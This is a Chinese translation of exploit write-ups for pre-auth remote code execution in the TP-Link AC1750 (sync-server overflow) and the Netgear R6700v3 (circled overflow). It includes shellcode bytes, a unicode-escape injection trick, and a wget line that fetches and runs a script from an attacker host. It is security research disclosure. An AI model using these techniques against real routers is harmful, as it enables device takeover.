TP-LINK AC1750 路由器与 NETGEAR R6700V3 路由器漏洞解析

- - -

# TP-LINK AC1750 路由器与 NETGEAR R6700V3 路由器漏洞解析

> 本文介绍了如何找到两个路由器的远程任意代码执行漏洞，涉及的主要技术有：
> 
> -   LAN局域网内未授权RCE
> -   WAN广域网侧未授权RCE
> -   堆溢出攻击
> 
> 翻译来源：
> 
> [https://www.synacktiv.com/en/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750](https://www.synacktiv.com/en/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750)
> 
> [https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3](https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3)

Synacktiv安全团队2021年提交了一个针对TP-Link AC1750的局域网LAN侧的漏洞，这篇文章旨在描述发现和利用此漏洞的完整过程，包括漏洞攻击的代码，这是一个TP-Link AC1750智能Wifi路由器中的未授权过程中的远程代码执行漏洞。

该漏洞存在于运行在TP-Link Archer A7（AC1750）路由器上的sync-server进程中，此漏洞可被路由器局域网侧的攻击者远程利用，并且无需进行身份验证，同步服务器不响应网络请求，但是守护进程tdpServer在解析数据时会写入共享内存区域，攻击方通过向tdpServer发送精心构造的数据，可以在sync-server中执行任意代码，并且以最高级别的root权限控制路由器。[https://www.zerodayinitiative.com/advisories/ZDI-21-215/](https://www.zerodayinitiative.com/advisories/ZDI-21-215/)

# TP-LINK AC1750

## 调试环境

在获得测试设备（TP-Link C7 v5和TP-Link A7 v5）后，希望获得一个shell来设置一个调试环境，4个常见的UART引脚可以很容易地被找到并与功能相关联，实际上该设备完全忽略了的击键操作，在OpenWRT文档中描述了此方法的解决方案，下面将路由器的TX引脚焊接到正确的PCB走线：

[https://openwrt.org/toh/tp-link/archer-c7-1750](https://openwrt.org/toh/tp-link/archer-c7-1750)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164108-12022d0c-7700-1.png)

使用buildroot创建了一个正确的（例如BR2\_MIPS\_SOFT\_FLOAT=y、BR2\_TOOLCHAIN\_BUILDROOT\_LIBC=“musl”）的MIPS32 大端序工具链，并编译了gdbserver、strace和一个带有大多数程序的busybox。由于TP-Link不能防止固件降级，所以允许更新具有已知漏洞的固件，以获得设备上的root用户，可以进一步简化漏洞研究。

## TDPSERVER

在 LAN 口上监听的服务中，tdpServer 服务可以通过端口 20002 上的UDP协议访问，使用名为TDP的专有协议，有2篇相关详细解释了 TPD 协议的工作原理，阅读之后能更加理解本文：

-   [https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo](https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo)
-   [https://labs.f-secure.com/advisories/tp-link-ac1750-pwn2own-2019/](https://labs.f-secure.com/advisories/tp-link-ac1750-pwn2own-2019/)

daemon守护程序处理多种类型的 TDP 数据包，并以 JSON 形式解析发送数据，根据类型和操作码，可能需要使用硬编码的 AES 密钥或固定 XOR 进行加密。数据包的头部具有固定大小，payload如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164118-1820d238-7700-1.png)

经过一些初步研究，type字段为0xF8代表OneMesh，操作码opcode字段为0x0007代表slave\_key\_offer，下面将数据添加到 SHM 段，对存储在payload字段中的json格式数据，进行宽松的验证后，构造了payload来到达这个代码的路径，并决定继续分析这个SHM：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164131-1fed7ae8-7700-1.png)

## SYNC-SERVER 中的漏洞

导入shamat之后搜索，确定目标sync-server，因为它会同步tdpServer的数据，然后在/tmp路径输入JSON文件，让其他程序如Web界面来使用。`_handle_request_clients_async`函数会被自动定时调用，通过tdpServer从共享内存中读取数据，然后使用`onemesh_listDevices`函数解析内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164145-2805f5de-7700-1.png)

然后，复制ip和mac到本地64大小的堆栈数组\[1\]，然后，将这些值逐个复制，填充到\[2\]和\[3\]的地方，由于此处没有执行边界检查，因此如果SHM包含了超过32个devices，就会发生溢出。导致指向堆的指针覆盖了\\$fp 和 $ra：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164155-2e0e9de6-7700-1.png)

调试日志能够帮助跟踪正在处理的 OneMesh 设备的数量，下面是将 3 个数据包发送到 tdpServer，并由 sync-server 正确处理时的日志：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164203-32fee806-7700-1.png)

在向tdpServer发送50个数据包并稍等片刻后，sync-server 发生崩溃：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164210-37185f44-7700-1.png)

## 漏洞攻击

首先需要绕过地址空间随机化ASLR，由于保存的寄存器不会被payload数据覆盖，而是被指向受控数据的指针覆盖。这意味着当\\$ra从堆栈中恢复时，它将自动指向被控数据，由于堆段权限是RWX，因此可以直接执行代码，无需任何其他方式即可绕过 ASLR。从动态分析来看，$ra是从指向 mac 字段的指针还原的，这意味着可以将shellcode放入其中以查看其执行情况。

下一步是完成溢出，由于JSON 字符串中发送的 MAC 地址必须通过 JSON 语法和格式检查器过滤，因此payload的每个字符限制在 \[0x00-0xff\] 范围的一小部分，但 tdpServer 将 mac 地址的大小限制为 17 个字节，这非常短，因为 MIPS 指令的长度为 4 个字节。

通过研究 JSON 解析器，可以发现像\\u00xx这样的unicode 编码可以被用来写入共享内存，范围包括\[0x01-0xff\]中的字节，能够有效并扩大了发送到共享内存中数据，剩下的唯一限制是避免空字节。

sync-server 在能够在已知地址中引入了 system（），原因是二进制文件是在没有 PIE 的情况下编译的，所以操作码不会包含任何空字节：

```plain
0C 10 07 14 jal system
```

因此，mac 地址可以以“\\u000c\\u0010\\u0007\\u0014”开头。要运行的命令的地址应放在 \\$a 0 寄存器中（由于 MIPS 中的推测调用，该地址位于 jal 系统之后）。再次触发函数发生错误时，寄存器\\$s 0到\\$s 7从堆栈恢复，并且堆栈中填满了指向 ip 和 mac 的指针。寄存器\\$s0到\\$s7将包含指向字符串的指针，这正是本文所需要的，\\$s2寄存器指向一个ip值—说明可以使用不包含空字节的操作码将 \\$s 2 移动到 \\$a 0：

```plain
02 40 20 25 move $a0,$s2
```

之后，$a0表示完全被控数据，所以使用的最终shellcode是“\\u000c\\u0010\\u0007\\u0014\\u0002\\u0040\\u0020\\u0025”，这样就可以通过同步服务器sync-server 执行命令，并且可以启动任意命令。实际上，每50个mac地址中的每一个地址上都会附加一个唯一ID，因为 tdpServer 有一种重复数据删除例程，有了这个唯一的 ID，保证所有数据都是唯一的，并推送到共享内存。所以，“cmd;num\_id”被用作 ip 值，原因是为了避免消除重复数据。

## 在 TDDP 的帮助下获取远程 SHELL

有漏洞的函数称为“async”，据观察，它每 80 秒调用一次，所以攻击方必须发送数据，然后等待 80 秒，因为没有进行任何方法来加快这一进程。最后一个问题仍然存在：如何获得远程 shell？由于只能启动一个命令，而sync-server 会因为我们的 shellcode 而崩溃。命令的长度很短，如果使用 id，则为 12 个字节，如果为“cmd;num\_id”，最多 15 个字节。由于没有 telnetd 或 netcat，此时最好的方法是启动 tddp 二进制文件，这是一个默认未启动的调试守护程序，在[https://mjg59.dreamwidth.org/51672.html被提起过。](https://mjg59.dreamwidth.org/51672.html%E8%A2%AB%E6%8F%90%E8%B5%B7%E8%BF%87%E3%80%82)

将脚本和漏洞利用调整，并在目标设备上执行带有 Lua 绑定shell的命令注入。因为攻击受到注入命令大小的限制，但有足够的空间来下载 shell 脚本并执行它：

```plain
wget http://attacker_ip:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh
```

最后，攻击方就会得到一个shell。由于所有守护程序daemons都以 root 身份运行（tdpServer、sync-server 和 tddp），所以攻击方可以在设备上获得最高级别的权限。

## 漏洞利用

将漏洞利用代码拆分为下面 4 个文件：

-   exploit.sh：HTTP 服务器的实例化、两个漏洞的编排等。
-   tdpwn.py：众多协会
-   tdp.py：命令注入
-   pwn.sh：需要在路由器上执行的命令（在Lua 绑定 shell）

将 IP 地址设置为 192.168.0.100 后，运行exploit.sh 等待足够的时间，会得到一个shell：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164228-420e0a84-7700-1.png)

由于无法对对同步服务器进行控制，只能定期启动一些回调来强制解析共享内存数据，所以除了等待，没有其他办法。由于 sync-server 最初仅出于未知原因从共享内存中解析 20 到 30 个新设备，因此首次利用漏洞几乎总是失败，不会触发漏洞。为了提高可靠性，需要重新发起攻击，此时成功概率超过99%。如果再次失败，第三次尝试总是可以成功的，攻击该漏洞攻击需要计时 80 秒才能唤醒同步服务器，所以在 160 秒后通常会获得shell。

## 补丁修复方法

TP-Link 在其网站（[https://www.tp-link.com/us/support/download/archer-c7/#Firmware）上发布了一个补丁，发行说明说：](https://www.tp-link.com/us/support/download/archer-c7/#Firmware%EF%BC%89%E4%B8%8A%E5%8F%91%E5%B8%83%E4%BA%86%E4%B8%80%E4%B8%AA%E8%A1%A5%E4%B8%81%EF%BC%8C%E5%8F%91%E8%A1%8C%E8%AF%B4%E6%98%8E%E8%AF%B4%EF%BC%9A)

```plain
Modifications and Bug Fixes:

1. Fix the vulnerabilities of modules such as OneMesh and IPv6 to enhance device security;
(...)
```

bug已经被修复，修复方案是在漏洞函数中，检查数组是否发生溢出：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164237-478c250e-7700-1.png)

设置V10 是 IP 和 Mac 的计数器，这样即使共享内存包含超过 64 个对象，数组也不会发生溢出。

## 结论

本文阐述了如何在 TP-Link AC1750 智能 Wifi 路由器的LAN侧实现身份验证前的RCE。

# NETGEAR R6700V3

## 简单介绍

本文介绍们如何成功地从 WAN 接口实现接管 Netgear 路由器，该漏洞发生在路由器的WAN侧，发生在 Netgear 路由器上运行的 `/bin/circled` 二进制文件中，可以实现攻击者在路由器的 WAN 端远程利用此漏洞，并且而无需身份验证，又称未授权远程代码执行。Circled 守护程序从 Web 服务器获取文件，在解析此 `circleinfo.txt` 文件时可能会触发缓冲区溢出。通过将恶意文件放置在 Web 服务器中并重定向路由器以下载它（通过 DNS 重定向或 TCP 重定向），攻击者可以执行任意代码，当 Circled 在根身份下运行时，攻击者将获得路由器的完全权限。该漏洞已收到编号CVE-2022-27646和CVE-2022-27644。

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27646)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27644](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27644)

## 漏洞分析

Circled 是一个第三方守护程序，它用来为 Netgear 路由器启用家长控制。可以在grimm的博客文章中找到对服务和之前漏洞的相关分析。本文介绍 `/bin/circled` 二进制文件中的一个新漏洞。应该注意的是，守护程序是在默认路由器配置中启动的。在 Netgear 固件版本 `R6700v3-V1.0.4.120_10.0.91` 中，守护程序是 ， `/bin/circled` 其 SHA1 哈希值为 `ac86472cdeccd01165718b1b759073b9e6b665e9` 。

[https://blog.grimm-co.com/2021/09/mama-always-told-me-not-to-trust.html](https://blog.grimm-co.com/2021/09/mama-always-told-me-not-to-trust.html)

## 负责更新的函数

分析一下这个服务的更新机制,主程序在启动后不久就fork了，所以一个进程负责下载和检查数据库和引擎的版本。在启动时就开始检查，之后每两小时启动一次。如果发生进程崩溃，进程将重新启动。

任意命名 `updating_database` 的 `0xCE38` 函数位于解析文件 `/tmp/circleinfo.txt` 中，用来检查是否有任何要应用的更新。解析读取的每一行文本文件，然后在不检查其边界的情况下将数据写入两个堆栈变量中，从而导致经典的堆栈缓冲区溢出。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164249-4eb8479a-7700-1.png)

在这个代码片段中看到，该 `line` 变量最多可以处理 1024 个字符，尽管 `db_checksum_val` 和 `db_checksum` 在 `sscanf` 中的大小只有256，但是由于这两个变量都位于堆栈末尾附近，这允许我们触发堆栈溢出。

## 获取文件

位于`0xE2D8`的函数，命名为 `retrieve_circleinfo_txt`，它从远程服务器获取 `circleinfo.txt` 文件并将其复制到 `/tmp` 文件夹中。函数 `url_retrieve` （在 `0xC904` ）用于下载文件，下载是通过https服务器完成的，但该函数不检查证书：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164302-55fea0bc-7700-1.png)

curl的 `-k` 选项显式地阻止证书检查，所以这意味着任何人都可以模拟更新服务器。

可下载文件进行检查：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164308-5998f3c6-7700-1.png)

## 漏洞简单验证

为了验证漏洞，将为Netgear路由器配置自己的DNS服务器，方便将查询重定向到Circled更新服务器到自定义的服务器，选择提供一个包含1000个'A'后跟一个空格和一个'A'的文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231030164315-5e040ffe-7700-1.png)

在circled的日志（ `/tmp/circledinfo.log` ）中，可以看到进程崩溃并在循环中重新启动。

